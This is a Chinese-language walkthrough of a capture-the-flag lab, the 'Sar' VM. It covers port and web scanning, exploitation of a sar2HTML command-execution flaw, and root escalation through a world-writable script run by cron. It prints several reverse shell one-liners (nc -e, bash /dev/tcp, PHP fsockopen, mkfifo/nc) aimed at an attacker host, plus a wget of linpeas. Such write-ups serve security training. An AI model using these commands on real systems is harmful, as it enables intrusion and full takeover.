






# sar-192.168.146.58
## 信息收集
### 全端口扫描
```
└─$ sudo nmap -p- 192.168.146.58           
[sudo] password for aacai: 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-21 11:32 HKT
Nmap scan report for 192.168.146.58
Host is up (0.00012s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:8A:FF:1A (VMware)
```
### 指定端口扫描
```
└─$ sudo nmap -p80 -sV -A 192.168.146.58
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-21 11:32 HKT
Nmap scan report for 192.168.146.58
Host is up (0.00028s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:8A:FF:1A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.28 ms 192.168.146.58

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.80 seconds

```
### web信息收集
```
┌──(aacai㉿kali)-[~/Desktop/gooann/sar-192.168.146.58]
└─$ nikto -h 192.168.146.58      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.58
+ Target Hostname:    192.168.146.58
+ Target Port:        80
+ Start Time:         2022-07-21 11:33:47 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 59558e1434548, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET 
+ /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-07-21 11:34:37 (GMT8) (50 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                                                                                                                                                               
┌──(aacai㉿kali)-[~/Desktop/gooann/sar-192.168.146.58]
└─$ 

└─$ dirb http://192.168.146.58        

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul 21 11:34:48 2022
URL_BASE: http://192.168.146.58/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.146.58/ ----
+ http://192.168.146.58/index.html (CODE:200|SIZE:10918)                                                                                                      
+ http://192.168.146.58/phpinfo.php (CODE:200|SIZE:95507)                                                                                                     
+ http://192.168.146.58/robots.txt (CODE:200|SIZE:9)                                                                                                          
+ http://192.168.146.58/server-status (CODE:403|SIZE:279)                                                                                                     
                                                                                                                                                              
-----------------
END_TIME: Thu Jul 21 11:34:50 2022
DOWNLOADED: 4612 - FOUND: 4

```
### web页面信息收集



```
└─$ searchsploit apache 2.4.29                              
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                              | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                            | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                                        | linux/local/46676.php
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                          | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                         | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                   | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                   | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                          | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                            | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                          | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                                    | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                 | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                 | jsp/webapps/42966.py
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                                 | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution                                             | linux/remote/34.pl
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

 searchsploit php 7.1 | grep -v "WordPress\|Drupal\|.php"
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FirePHP Firefox Plugin 0.7.1 - Remote Command Execution                                                                      | windows/remote/24961.html
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```





>https://www.exploit-db.com/exploits/49344
```
└─$ python3 exploit.py                                                                                                                                     1 ⨯
Enter The url => http://192.168.146.58/sar2HTML/
Command => whoami
www-data

Command => nc 192.168.146.64 4444 -e /bin/bash

Command => nc 192.168.146.63 4444 -e /bin/bash

Command => bash -i >& /dev/tcp/192.168.146.63/4444 0>&1

Command => bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.146.63%2F4444%200%3E%261

Command => whoami
www-data

Command => ls
LICENSE
index.php
sar2html
sarDATA
sarFILE

Command => nc
Command => php%20-r%20'%24sock%3Dfsockopen(%22192.168.146.63%22%2C4444)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B'
```
### 提权
```
└─$ nc -nvlp 4444                                                                                                                                          1 ⨯
listening on [any] 4444 ...
connect to [192.168.146.63] from (UNKNOWN) [192.168.146.58] 48596
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
LICENSE
index.php
sar2html
sarDATA
sarFILE
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 3: python: not found
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@sar:/var/www/html/sar2HTML$ ls -al
ls -al
total 160
drwxr-xr-x 4 www-data www-data  4096 Oct 20  2019 .
drwxr-xr-x 3 www-data www-data  4096 Oct 21  2019 ..
-rwxr-xr-x 1 www-data www-data 35149 Mar 14  2019 LICENSE
-rwxr-xr-x 1 www-data www-data 53446 Mar 19  2019 index.php
-rwxr-xr-x 1 www-data www-data 53165 Mar 19  2019 sar2html
drwxr-xr-x 3 www-data www-data  4096 Oct 20  2019 sarDATA
drwxr-xr-x 3 www-data www-data  4096 Mar 19  2019 sarFILE

www-data@sar:/var/www/html/sar2HTML$ cd /tmp
cd /tmp
www-data@sar:/tmp$ ls -al
ls -al
total 8
drwxrwxrwt  2 root root 4096 Jul 21 09:05 .
drwxr-xr-x 24 root root 4096 Oct 20  2019 ..
www-data@sar:/tmp$ wget http://192.168.146.63/linpeas.sh
wget http://192.168.146.63/linpeas.sh
--2022-07-21 09:34:54--  http://192.168.146.63/linpeas.sh
Connecting to 192.168.146.63:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776967 (759K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.76K  --.-KB/s    in 0.006s  

2022-07-21 09:34:54 (116 MB/s) - 'linpeas.sh' saved [776967/776967]

```
#### 获取关键信息
```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-0358] ntfs-3g-modprobe

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1072
   Exposure: less probable
   Tags: ubuntu=16.04{ntfs-3g:2015.3.14AR.1-1build1},debian=7.0{ntfs-3g:2012.1.15AR.5-2.1+deb7u2},debian=8.0{ntfs-3g:2014.2.15AR.2-1+deb8u2}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/41356.zip
   Comments: Distros use own versioning scheme. Manual verification needed. Linux headers must be installed. System must have at least two CPU cores.


PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh

```
```
www-data@sar:/tmp$ cd /var/www/html
cd /var/www/html
www-data@sar:/var/www/html$ ls
ls
finally.sh  index.html	phpinfo.php  robots.txt  sar2HTML  write.sh
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway
www-data@sar:/var/www/html$ ls -al
ls -al
total 40
drwxr-xr-x 3 www-data www-data  4096 Oct 21  2019 .
drwxr-xr-x 5 www-data www-data  4096 Jul 21 09:35 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Oct 20  2019 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh
www-data@sar:/var/www/html$ 

```
### 提权成功
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.63 4445 >/tmp/f" > write.sh
< -i 2>&1|nc 192.168.146.63 4445 >/tmp/f" > write.sh


└─$ nc -nvlp 4445                                                                                                                                        130 ⨯
listening on [any] 4445 ...
connect to [192.168.146.63] from (UNKNOWN) [192.168.146.58] 53684
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:8a:ff:1a brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.58/24 brd 192.168.146.255 scope global dynamic noprefixroute ens33
       valid_lft 69284sec preferred_lft 69284sec
    inet6 fe80::2009:6d57:8178:339f/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
# ls
finally.sh
index.html
phpinfo.php
robots.txt
sar2HTML
write.sh
# cd 
# ls
root.txt
# cat root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
# 

```
